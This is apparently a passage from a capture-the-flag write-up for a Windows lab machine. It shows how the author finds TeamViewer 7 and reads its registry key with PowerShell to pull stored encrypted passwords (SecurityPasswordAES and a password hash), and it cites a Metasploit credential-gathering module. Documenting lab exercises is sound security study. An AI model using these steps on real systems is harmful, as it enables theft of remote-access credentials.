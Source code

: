 3,Shell as SYSTEM
By enumerate the `C:\Program Files` , There is no other 3-part application
![](Pasted%20image%2020240914115547.png)

But there is another file `TeamViewer 7.lnk` in the `C:\Users\Public\Desktop`
So this place, it would be a hint for us to find the `TeamViewer`
In the file path `C:\Program Files (x86)\TeamViewer\Version7` we can find all the files of `TeamViewer`.

```
There is a Metasploit module post/windows/gather/credentials/teamviewer_passwords. But since I like to avoid Meterpreter to see what’s going on under the hood, I’ll take a look at the source. There’s a list of registry keys, and the one that looks like version 7 is HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7. For each location, it looks for the following values:

OptionsPasswordAES
SecurityPasswordAES
SecurityPasswordExported
ServerPasswordAES
ProxyPasswordAES
LicenseKeyAES
```

```
cd HKLM:\software\wow6432node\teamviewer\version7

get-itemproperty -path .

StartMenuGroup            : TeamViewer 7
InstallationDate          : 2020-02-20
InstallationDirectory     : C:\Program Files (x86)\TeamViewer\Version7
Always_Online             : 1
Security_ActivateDirectIn : 0
Version                   : 7.0.43148
ClientIC                  : 301094961
PK                        : {191, 173, 42, 237...}
SK                        : {248, 35, 152, 56...}
LastMACUsed               : {, 005056B96DD8}
MIDInitiativeGUID         : {514ed376-a4ee-4507-a28b-484604ed0ba0}
MIDVersion                : 1
ClientID                  : 1769137322
CUse                      : 1
LastUpdateCheck           : 1704810710
UsageEnvironmentBackup    : 1
SecurityPasswordAES       : {255, 155, 28, 115...}
MultiPwdMgmtIDs           : {admin}
MultiPwdMgmtPWDs          : {357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77}
Security_PasswordStrength : 3
PSPath                    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\wow6432node\teamviewer\vers
                            ion7
PSParentPath              : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\wow6432node\teamviewer
PSChildName               : version7
PSDrive                   : HKLM
PSProvider                : Microsoft.PowerShell.Core\Registry

```
